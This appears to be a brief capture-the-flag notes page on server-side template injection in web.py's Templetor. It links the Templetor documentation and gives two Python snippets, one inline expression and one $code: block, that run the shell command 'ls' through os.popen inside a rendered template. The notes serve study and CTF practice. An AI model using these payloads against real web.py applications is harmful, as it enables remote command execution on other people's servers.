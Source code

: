 title:: CTF/SSTI/web.py

- # 文档
	- https://webpy.org/docs/0.3/templetor.zh-cn
- # RCE
	- ```python
	  import web
	  
	  s = "${__import__('os').popen('ls').read()}"
	  
	  print(web.template.Template(s)())
	  
	  ```
	- ```python
	  import web
	  
	  s = """
	  $code:
	      def f():
	          return __import__("os").popen("ls").read()
	  
	  $f()
	  """
	  
	  print(web.template.Template(s)())
	  
	  ```